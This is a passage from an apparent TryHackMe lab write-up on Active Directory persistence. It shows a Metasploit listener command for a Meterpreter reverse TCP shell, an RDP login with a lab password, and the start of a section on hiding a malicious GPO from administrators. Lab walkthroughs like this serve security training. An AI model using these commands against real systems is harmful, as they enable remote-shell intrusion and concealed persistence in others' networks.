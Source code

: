 	* Start our MSF listener
	
		```
		msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST persistad; set LPORT 5555; exploit"
		```

		![task8-listener](./images/task8-listener.png)

	* Test it out by RDPing into THMSERVER1 with user `t1_jay.wilson`
	
		```
		xfreerdp /v:thmwrk1.za.tryhackme.loc /u:'t1_jay.wilson' /p:'Password123'
		```

		![task8-rdp2](./images/task8-rdp2.png)

	* Get the shell
	
		![task8-shell](./images/task8-shell.png)

* Practical Hiding in Plain Sigh GPO

	* Set ENTERPRISE DOMAIN CONTROLLERS to Edit settings, delete, modify security
	